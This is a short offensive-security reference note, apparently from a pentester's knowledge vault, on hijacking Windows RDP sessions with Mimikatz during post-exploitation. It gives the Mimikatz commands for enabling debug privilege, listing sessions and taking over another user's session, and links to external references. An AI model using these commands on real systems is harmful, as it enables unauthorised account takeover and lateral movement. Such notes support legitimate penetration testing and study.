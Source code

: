 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - pivot
  - lateral-movement
  - offensive-tools
  - T1021-001
  - network-protocols
  - rdp
  - windows
---
```

# Binaries

## Mimikatz

List active user sessions.

```
mimikatz # privilege::debug

mimikatz # ts::sessions
```

Impersonate any available tokens when necessary to steal user session.

![[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x02 - Privilege Escalation/Windows/Local Privilege Escalation/Impersonation Privileges/Token Impersonation/Abusing Tokens/SeImpersonatePrivilege/Offensive Tools/Binaries#^1e52a7]]


Steal user session to authenticate the machine remotely.

```
mimikatz # ts::remote /id:<id_number>
```

---
## References

### Hacktricks

- [Hacktricks: Pentesting RDP](https://book.hacktricks.wiki/en/pentesting/pentesting-rdp.html)

### Hacking Articles

- [Hacking Articles: Remote Services (Mitre:T1021)](https://www.hackingarticles.in/lateral-movement-remote-services-mitret1021/)